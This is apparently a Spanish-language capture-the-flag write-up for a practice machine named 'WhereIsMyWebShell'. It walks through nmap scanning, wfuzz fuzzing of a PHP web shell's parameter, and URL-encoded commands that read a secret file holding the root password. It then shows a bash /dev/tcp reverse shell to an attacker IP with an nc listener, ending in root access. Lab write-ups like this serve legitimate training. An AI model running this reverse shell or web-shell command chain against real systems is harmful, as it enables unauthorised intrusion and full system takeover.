 ### Informe de máquina *"WhereIsMyWebShell"*

![Máquina Psycho](./screenshots/01_maquina.png)

Vamos a realizar la maquina "Psycho", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`

![Permisos ejecución deploy](./screenshots/02_permisos_ejecucion_deploy.png)
![Inicialización máquina](./screenshots/03_inicializacion_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.
Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Test de conexión](./screenshots/04_escaneo_puertos_abiertos.png)

Encontramos que el puerto 80 se encuentrá abierto, realizamos un escaneo más detallado de este puerto.

![Escaneo detalle puerto 80](./screenshots/05_escaneo_puerto80.png)

Procedemos a revisar el contenido de la página web.

![Página web](./screenshots/06_pagina_web.png)
![Código fuente de página web](./screenshots/07_codigo_fuente_pagina.png)

Casi al final de la página podemos encontrar un mensaje que dice "Guardo un secreto que guardo en /tmp". Guardamos este dato para despues.

Por ahora realizamos un ataque de fuzzing para encontrar directorios o páginas en el servidor web.

![Ataque de Fuzzing](./screenshots/08_ataque_fuzzing.png)

Encontramos dos páginas, una "shell.php" y otra "warning.html".

![Web warning](./screenshots/09_web_warning.png)

En "warning.html" encontramos un mensaje que dice: "...su web shell tiene un parametro que no recuerto...", podemos concluir que la página "shell.php" espera un parametro.

![Ejemplo web shell en php](./screenshots/10_ejemplo_codigo_shell_php.png)

Investigando un poco del funcionamiento de una web shell con php, si identificamos el nombre del parametro le podemos mandar una instrucción para que sea ejecutada.

Realizaremos un ataque de fuzzing, donde la página "shell.php" reciba el nombre de un parametro y que ejecute el comando `id`. Haciendo uso de la herramienta `wfuzz`


```bash
wfuzz -c  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --sc 200 'http://172.17.0.2/shell.php?FUZZ=id'
```

![Fuzzing id de web shell](./screenshots/11_id_shell.png)

Encontramos que el nombre del parámetro para la ejecución de la web shell es "parameter".

![Acceso a web shell](./screenshots/12_acceso_shell.png)

Recordando el primer mensaje pista, realizamos un listado de todos los archivos en `/tmp`, recordando que estamos en un navegador debemos remplazar algunos símbolos como `/` o `.`.
Es decir, para ejecutar el comando `ls -la /tmp` ejecutaremos: `ls -la %2Ftmp`, nos podemos apoyar de algun codificador como [urlencoder](https://www.urlencoder.org/es/)

Ejecutamos:
```
172.17.0.2/shell.php?parameter=ls -la %2Ftmp
```

![Contenido en tmp](./screenshots/14_ls_tmp.png)

Identificamos un archivo oculto llamado `.secret.txt`
Ejecutamos el comando:

```
172.17.0.2/shell.php?parameter=cat %2Ftmp%2F.secret.txt
```

![Lectura secret.txt](./screenshots/15_passwd_root.png)

Encontramos una contraseña al parecer del usuario root.
Para realizar una mejor ejecución de los comandos vamos a realizar una reverse shell.

Primero empezamos por definir un puerto en escucha en nuestra máquina atacante, en este caso el puerto 4433, con el comando: `sudo nc -lvnp 4433`

![Escucha puerto 4433](./screenshots/16_reverse_shell_listening_port.png)

Y en el navegador el comando `bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'` donde `$RHOST` es la ip de nuestra maquina atacante y `$RPORT` es el puerto que definimos para la escucha:
Compilando este comando y ejecutandolo en el navegador quedaria:

```
172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F10.0.2.15%2F4433 0>%261'
```

En unos segundos, observamos que la terminal donde dejamos en escucha el puerto 4433, se nos iniciará una shell.

![Acceso a terminal](./screenshots/17_acceso_terminal.png)

Como revisamos en el archivo `/tmp/.secret.txt` intentamos acceder como usuario `root` con esta contraseña, resultando con éxito.

La contraseña de root era: `contraseñaderoot123`

![Logeo como root](./screenshots/18_acceso_root.png)



